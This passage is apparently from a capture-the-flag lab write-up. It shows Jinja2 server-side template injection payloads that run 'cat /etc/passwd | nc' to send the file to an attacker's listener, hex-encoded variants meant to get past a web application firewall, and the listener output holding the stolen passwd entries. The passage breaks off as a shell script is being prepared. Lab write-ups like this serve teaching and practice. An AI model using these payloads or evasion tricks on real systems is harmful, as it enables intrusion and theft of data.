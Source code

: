 The example from the post to get RCE and exfil the result using `nc` is:

```

{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}

```

This payload is attempting to read `/etc/passwd` and send it back over `nc`.

I’ll have to tweak it a bit to get around the WAF, so I’ll encode the suspect characters to see if that gets through:

```

{% if request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /etc/passwd | nc 10\x2e10\x2e14\x2e7 1337")["read"]() == "chiv" %} a {% endif %}

```

It seems there are some multicharacter rules in place as well:

![image-20210517144030463](https://0xdfimages.gitlab.io/img/image-20210517144030463.png)

Another option with the `{% %}` syntax is to include another object.

```

{% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /etc/passwd | nc 10\x2e10\x2e14\x2e7 1337")["read"]()%}

```

The bad news if that the results will not be displayed back to the page, as once the execution happens and returns, it will certainly fail the `include`. But if it works, the execution should have shipped `/etc/passwd` back to me already at that point.

With `nc` listening, submitting that as the message worked!

```

oxdf@parrot$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 51278
root:x:0:0:root:/root:/bin/bash
...[snip]...
chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false

```

The page hangs until I kill the `nc`, and then it return 500 as expected.

### Shell

I created a `shell.sh` locally:
